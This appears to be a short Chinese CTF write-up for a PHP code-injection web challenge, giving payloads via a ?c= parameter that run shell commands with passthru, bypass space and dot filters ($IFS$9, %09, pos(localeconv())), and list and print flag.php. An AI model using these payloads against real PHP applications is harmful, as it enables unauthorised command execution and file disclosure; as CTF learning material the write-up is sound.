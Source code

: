 **解题：**

最简单的：

`?c=passthru("ls");`

`?c=passthru("tac%09fla*");`

**还有：**

`?c=passthru(%22tac\$IFS\$9fla*%22); `也就是`passthru("tac\$IFS\$9fla*");`（%22为双引号）

**使用pos(localeconv)来获取小数点**

localeconv可以返回包括小数点在内的一个数组；pos去取出数组中当前第一个元素，也就是小数点。这就绕过了小数点限制。

 scandir可以结合它扫描当前目录内容。`?c=print_r(scandir(pos(localeconv())));` 可以看到当前目录，通过array_reverse把数组逆序，通过next取到第二个数组元素，也即flag.php 然后`?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`

这个在**Web 29**有详细解释，这里就是在Web 29的基础上绕过了小数点。

**不懂：**

`?c=show_source(scandir(getcwd())[2]);`

`?c=$f=glob("f*");show_source($f[0]);`

